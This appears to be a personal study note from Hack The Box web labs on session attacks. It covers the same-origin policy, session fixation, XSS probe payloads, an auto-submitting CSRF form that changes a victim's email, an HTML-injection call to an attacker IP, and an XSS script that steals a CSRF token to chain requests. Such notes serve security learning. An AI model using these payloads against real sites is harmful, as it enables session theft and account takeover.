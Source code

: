 # <span style=color:#44D62C>Same-Origin Policy (SOP)</span>
* ==a web browser permits scripts contained in a first web page to access data in a second web page, but only if both web pages have the same origin==
    * cant different protocol
        * http(80) vs. https(443)
    * cant different sub domain
        * www.htb.htb/page1 vs. abc.htb.htb/page2
    * cant different port
        * www.htb.htb:8000/page1 vs. abc.htb.htb:8080/page2

---
# <span style=color:red>Session Hijacking</span>
* ctrl+shift+i

![image](https://hackmd.io/_uploads/BJv8RQ3XC.png)

---
# <span style=color:red>Session Fixation</span>
```php=
<?php
    if (!isset($_GET["token"])) {
        session_start();
        header("Location: /?redirect_uri=/complete.html&token=" . session_id());
    } else {
        setcookie("PHPSESSID", $_GET["token"]);
    }
?>
```
![image](https://hackmd.io/_uploads/ryiT0_2mR.png)
# <span style=color:red>Obtaining session cookies via XSS</span> 
![Screenshot_20240527_143453](https://hackmd.io/_uploads/ByJoFsb40.jpg)
```javascript
"><img src=x onerror=prompt(document.domain)>
```
```javascript
"><img src=x onerror=confirm(1)>
```
```javascript
"><img src=x onerror=alert(1)>
```
* onload, onerror, onmouseover
* type Share

![Screenshot_20240527_143529](https://hackmd.io/_uploads/H1-TYoWN0.jpg)
# <span style=color:red>Cross-Site Request Forgery</span> 
* https://tech-blog.cymetrics.io/posts/jo/zerobased-cross-site-request-forgery/
    * All the parameters required for the targeted request can be determined or guessed by the attacker
    * The application's session management is solely based on HTTP cookies, which are automatically included in browser requests
* need
    * To craft a <span style=color:#44D62C>malicious web page</span> that will issue a valid (cross-site) request impersonating the victim
    * The victim to be logged into the application at the time when the malicious cross-site request is issued
## <span style=color:>Get-Based</span>
* notmalicious_get.html
```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
## <span style=color:>Post-Based</span>
Exploiting an HTML Injection/XSS Vulnerability
* HTML injection
```html
<h1>h1<u>underline<%2fu><%2fh1>
```
![image](https://hackmd.io/_uploads/r18kqpamC.png)

```html
http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f10.10.14.20:8000%2f
```
![image](https://hackmd.io/_uploads/Hk2hiaaQ0.png)

---
## <span style=color:>XSS & CSRF chain</span>
* XSS payload
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```